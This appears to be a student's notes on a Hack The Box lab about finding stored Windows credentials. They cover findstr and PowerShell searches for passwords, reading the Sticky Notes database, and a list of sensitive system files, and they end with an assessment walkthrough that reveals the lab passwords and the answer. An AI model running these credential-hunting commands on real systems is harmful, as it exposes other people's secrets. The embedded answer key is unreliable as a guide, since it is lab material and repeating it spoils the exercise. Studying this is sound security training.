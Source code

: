 # Other Files

## Manually Searching the File System for Credentials

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#search-for-a-file-with-a-certain-filename" %}
commands to search file system
{% endembed %}

**Search File Contents for String - Example 1**

```cmd-session
C:\htb> cd c:\Users\htb-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt

stuff.txt
```

**Search File Contents for String - Example 2**

```cmd-session
C:\htb> findstr /si password *.xml *.ini *.txt *.config

stuff.txt:password: l#-x9r11_2_GL!
```

**Search File Contents for String - Example 3**

```cmd-session
C:\htb> findstr /spin "password" *.*

stuff.txt:1:password: l#-x9r11_2_GL!
```

**Search File Contents with PowerShell**

```powershell-session
PS C:\htb> select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password

stuff.txt:1:password: l#-x9r11_2_GL!
```

**Search for File Extensions - Example 1**

```cmd-session
C:\htb> dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*

c:\inetpub\wwwroot\web.config
```

**Search for File Extensions - Example 2**

```cmd-session
C:\htb> where /R C:\ *.config

c:\inetpub\wwwroot\web.config
```

Similarly, we can search the file system for certain file extensions with a command such as:

**Search for File Extensions Using PowerShell**

```powershell-session
PS C:\htb> Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore


    Directory: C:\inetpub\wwwroot


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/25/2021   9:59 AM            329 web.config

<SNIP>
```

## Sticky Notes Passwords

&#x20;stickynotes app has a database at the following location

`C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite`

```powershell-session
PS C:\htb> ls
 
 
    Directory: C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState
 
 
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/25/2021  11:59 AM          20480 15cbbc93e90a4d56bf8d9a29305b8981.storage.session
-a----         5/25/2021  11:59 AM            982 Ecs.dat
-a----         5/25/2021  11:59 AM           4096 plum.sqlite
-a----         5/25/2021  11:59 AM          32768 plum.sqlite-shm
-a----         5/25/2021  12:00 PM         197792 plum.sqlite-wal
```

copy all three sqlite files and open in database viewer tools (DB Browser for SQLite)

![](https://academy.hackthebox.com/storage/modules/67/stickynote.png)

**Viewing Sticky Notes Data Using PowerShell**

using the [PSSQLite module](https://github.com/RamblingCookieMonster/PSSQLite)

```powershell-session
PS C:\htb> Set-ExecutionPolicy Bypass -Scope Process

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A

PS C:\htb> cd .\PSSQLite\
PS C:\htb> Import-Module .\PSSQLite.psd1
PS C:\htb> $db = 'C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
PS C:\htb> Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap
 
Text
----
\id=de368df0-6939-4579-8d38-0fda521c9bc4 vCenter
\id=e4adae4c-a40b-48b4-93a5-900247852f96
\id=1a44a631-6fff-4961-a4df-27898e9e1e65 root:Vc3nt3R_adm1n!
\id=c450fc5f-dc51-4412-b4ac-321fd41c522a Thycotic demo tomorrow at 10am
```

**Strings to View DB File Contents**

On linux attack machine

```shell-session
strings plum.sqlite-wal

CREATE TABLE "Note" (
"Text" varchar ,
"WindowPosition" varchar ,
"IsOpen" integer ,
"IsAlwaysOnTop" integer ,
"CreationNoteIdAnchor" varchar ,
"Theme" varchar ,
"IsFutureNote" integer ,
"RemoteId" varchar ,
"ChangeKey" varchar ,
"LastServerVersion" varchar ,
"RemoteSchemaVersion" integer ,
"IsRemoteDataInvalid" integer ,
"PendingInsightsScan" integer ,
"Type" varchar ,
"Id" varchar primary key not null ,
"ParentId" varchar ,
"CreatedAt" bigint ,
"DeletedAt" bigint ,
"UpdatedAt" bigint )'
indexsqlite_autoindex_Note_1Note
af907b1b-1eef-4d29-b238-3ea74f7ffe5caf907b1b-1eef-4d29-b238-3ea74f7ffe5c
U	af907b1b-1eef-4d29-b238-3ea74f7ffe5c
Yellow93b49900-6530-42e0-b35c-2663989ae4b3af907b1b-1eef-4d29-b238-3ea74f7ffe5c
U	93b49900-6530-42e0-b35c-2663989ae4b3


< SNIP >

\id=011f29a4-e37f-451d-967e-c42b818473c2 vCenter
\id=34910533-ddcf-4ac4-b8ed-3d1f10be9e61 alright*
\id=ffaea2ff-b4fc-4a14-a431-998dc833208c root:Vc3nt3R_adm1n!ManagedPosition=Yellow93b49900-6530-42e0-b35c-2663989ae4b3af907b1b-1eef-4d29-b238-3ea74f7ffe5c

<SNIP >
```

## Other Files of Interest

**Other Interesting Files**

Some other files we may find credentials in include the following:

```shell-session
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\iis6.log
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
%WINDIR%\System32\drivers\etc\hosts
C:\ProgramData\Configs\*
C:\Program Files\Windows PowerShell\*
```

## Assessment

<details>

<summary>Using the techniques shown in this section, find the cleartext password for the bob_adm user on the target system.</summary>

<pre><code>PS C:\> gc "C:\Scripts\Connect-VC.ps1.txt"
# Connect-VC.ps1
# Get-Credential | Export-Clixml -Path 'C:\scripts\pass.xml'
<strong>$encryptedPassword = Import-Clixml -Path 'C:\scripts\pass.xml'
</strong>$decryptedPassword = $encryptedPassword.GetNetworkCredential().Password
Connect-VIServer -Server 'VC-01' -User 'bob_adm' -Password $decryptedPassword
</code></pre>

Found in the C: root drive that the password is encrypted

Accidently found password for sa

```
PS C:\> gc "C:\inetpub\wwwroot\web.config"
<?xml version='1.0' encoding='utf-8'?>
<configuration>
  <connectionStrings>
  <add
    name="sqlServer"
    providerName="System.Data.SqlClient"
    connectionString="Data Source=localhost;Initial Catalog=DB01.INLANEFREIGHT.LOCAL;User Id=sa;Password=W1ck3d_g00d_Db_P@ss!;" />
</connectionStrings>>
</configuration>
PS C:\>
```

Also found password for Administrator

```
PS C:\Users\htb-student> gc "C:\Users\htb-student\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt"
dir
cd Temp
md backups
cp c:\inetpub\wwwroot\* .\backups\
Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://www.powershellgallery.com/packages/MrAToolbox/1.0.1/Content/Get-IISSite.ps1'))
. .\Get-IISsite.ps1
Get-IISsite -Server WEB02 -web "Default Web Site"
wevtutil qe Application "/q:*[Application [(EventID=3005)]]" /f:text /rd:true /u:WEB02\administrator /p:5erv3rAdmin! /r:WEB02findstr /SI /M "password" *.xml *.ini *.txt
findstr /SI /M "bob_adm" *.xml *.ini *.txt
```

looking at stickynotes I found the plum.sqlite file which I moved back to the attack host and check it's content

```
\id=e30f6663-29fa-465e-895c-b031e061a26a Network
\id=c73f29c3-64f8-4cfc-9421-f65c34b4c00e 
\id=69b4fc18-ae09-4226-af90-175ff4092b79 bob_adm:1qazXSW@3edc!ManagedPosition=DeviceId:\\?\DISPLAY#Default_Monitor#4&31be19fa&0&UID0
\id=e30f6663-29fa-465e-895c-b031e061a26a Network
\id=c73f29c3-64f8-4cfc-9421-f65c34b4c00e 
\id=69b4fc18-ae09-4226-af90-175ff4092b79 bob_adm:1qazXSW@3edc!ManagedPosition=Yellow6d42fa55-4fa6-4799-80f0-015b79cf7a3135388d4f-b79d-48b3-b5de-eb0c7f88d82d
\id=c450fc5f-dc51-4412-b4ac-321fd41c522a Thycotic demo tomorrow at 10amManagedPosition=Yellow6268cfc8-39b7-4970-9ead-f9113370195435388d4f-b79d-48b3-b5de-eb0c7f88d82d
\id=de368df0-6939-4579-8d38-0fda521c9bc4 vCenter
\id=e4adae4c-a40b-48b4-93a5-900247852f96 
```

```
bob_adm:1qazXSW@3edc!
```

</details>
